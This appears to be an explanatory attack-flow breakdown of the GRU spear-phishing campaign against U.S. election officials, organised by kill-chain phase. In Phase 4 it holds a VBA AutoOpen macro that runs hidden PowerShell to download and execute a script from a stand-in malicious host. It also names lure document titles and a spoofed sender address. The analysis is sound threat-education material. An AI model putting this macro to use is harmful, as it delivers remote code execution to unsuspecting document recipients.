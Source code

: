 
## **3. Attack Flow Based on the NSA Report and Image**
### **🟠 Phase 1: Reconnaissance (Identifying Targets)**
- The GRU **collected U.S. election officials' email addresses** using:
  - OSINT (Open-Source Intelligence)
  - Previously compromised credentials from past breaches

---

### **🔴 Phase 2: Staging & Weaponization**
- **Step 1: Creating a Fake Email Address**
  - The attackers **registered a fake Gmail account** (e.g., `vr.elections@gmail.com`), impersonating a **U.S. election service**.
  
- **Step 2: Preparing the Phishing Email**
  - The email contained **Microsoft Word attachments** titled:
    - `New_EViD_User_Guides.docm`
    - `Election_Software_Configuration.docm`
  - These documents had embedded **VBA macros**, triggering **PowerShell** execution.

---

### **🟡 Phase 3: Delivery (Sending Phishing Emails)**
- The GRU **sent spear-phishing emails** to at least **122 U.S. local government officials**.
- The emails contained a **spoofed election-related message**, appearing as an official notification.
- Some test emails were sent to **non-existent addresses**, likely to prepare **fake absentee ballot services**.

---

### **🟢 Phase 4: Exploitation (Opening the Document & Payload Execution)**
- When victims opened the **trojanized Microsoft Word documents**, they unknowingly executed:
  ```vbscript
  Sub AutoOpen()
      Dim objShell
      Set objShell = CreateObject("WScript.Shell")
      objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command iex(New-Object Net.WebClient).DownloadString('http://malicious-server.com/payload.ps1')"
  End Sub
  ```
- The **PowerShell script**:
  - Connected to a **GRU-controlled server**.
  - Downloaded and executed **a secondary payload**.

---

### **🔵 Phase 5: Installation & Persistence**
- The secondary payload likely **installed a backdoor** for persistent access.
- It beaconed back to a **malicious IIS web server** at a **U.S.-based IP (Port 3080)**.

---